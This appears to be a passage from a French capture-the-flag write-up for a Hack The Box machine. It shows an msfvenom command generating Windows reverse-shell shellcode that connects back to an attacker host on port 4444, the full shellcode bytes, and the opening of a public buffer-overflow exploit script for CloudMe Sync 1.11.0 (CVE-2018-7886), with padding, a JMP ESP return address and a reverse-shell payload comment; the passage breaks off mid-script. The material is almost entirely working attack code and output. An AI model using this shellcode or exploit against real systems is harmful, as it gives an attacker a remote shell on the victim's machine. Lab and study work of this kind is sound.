 Créer un nouveau shellcode et le remplacer dans l'exploit

~~~
root@Host-001:~/Téléchargements# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.56 LPORT=4444 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x38\x68"
"\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
root@Host-001:~/Téléchargements# 
root@Host-001:~/Bureau/htb/buff# cat exploit.py 
#######################################################
# Exploit Title: Local Buffer Overflow on CloudMe Sync v1.11.0
# Date: 08.03.2018
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1110.exe
# Category: Local
# Exploit Discovery: Prasenjit Kanti Paul
# Web: http://hack2rule.wordpress.com/
# Version: 1.11.0
# Tested on: Windows 7 SP1 x86
# CVE: CVE-2018-7886
# Solution: Update CloudMe Sync to 1.11.2
#######################################################

#Disclosure Date: March 12, 2018
#Response Date: March 14, 2018
#Bug Fixed: April 12, 2018

# Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

import socket

target="127.0.0.1" 

junk="A"*1052

eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1 LPORT=4444 -f c
~~~